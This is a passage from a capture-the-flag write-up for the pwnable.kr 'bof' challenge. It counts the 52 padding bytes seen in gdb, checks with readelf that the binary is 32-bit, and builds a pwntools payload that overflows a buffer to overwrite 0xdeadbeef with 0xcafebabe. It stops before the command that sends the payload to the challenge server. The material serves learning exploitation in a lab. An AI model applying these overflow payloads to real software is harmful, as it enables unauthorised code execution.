 and it is no coincidence that the address `0xdeadbeef` is also present among them. In particular we notice 3 rows made up of 4 columns which initially show the address `0x58585858` (i.e. the sequence `XXXX` of 4 characters) repeated several times and subsequently apparently random addresses until arriving at the address `0xdeadbeef` which must be replaced with the address `0xcafebabe`. Furthermore, in the last column there is another address `0x58585858`, so in total we have `3 * 4 + 1 = 13` addresses. So, `13` addresses before arriving at the address `0xdeadbeef` and each of these addresses represents 4 characters, so with `13 * 4 = 52` characters you arrive at the address `0xdeadbeef`.

> [!NOTE]
> To exit `gdb` you can use the `q` command.

So our payload will be composed of a sequence of `52` characters, for example all `X`, followed by the address `0xcafebabe` which will need to be packed. So before creating our exploit in `Python` let's try to see for which architecture the ELF file `bof` can be executed. To do this we use the `readelf` command as follows:

```
┌──(kali㉿kali)-[~/pwnable.kr/bof]
└─$ readelf -h bof
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Shared object file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x530
  Start of program headers:          52 (bytes into file)
  Start of section headers:          4428 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         9
  Size of section headers:           40 (bytes)
  Number of section headers:         30
  Section header string table index: 27
```

as can be understood, it is an ELF file for a 32-bit architecture. This last information is important because we need to prepare the strings to inject into the code. Then using the following command:

```
┌──(kali㉿kali)-[~/pwnable.kr/bof]
└─$ python -c "from pwn import *; import sys; sys.stdout.buffer.write(b'X' * 52 + p32(0xcafebabe))" > payload
```

in particular `p32()` is used to package `0xcafebabe` into 32-bit little endian transforming it into `\xbe\xba\xfe\xca`. Furthermore the output is redirected inside a file called `payload`.

Now we need to find a way to send the contents of the `payload` file to the program running on the hostname `pwnable.kr` on port `9000`. To view the contents of the `payload` file we can use the `cat` command which in turn, if no parameters are specified, will take the characters from `stdin` as input and output them to `stdout`. So what we can do is create a sub-shell that takes as input, via `cat`, the contents of the `payload` file and subsequently pipes it as input to the program running on the hostname `pwnable.kr` on port ` 9000`. To do all this we can use this command:
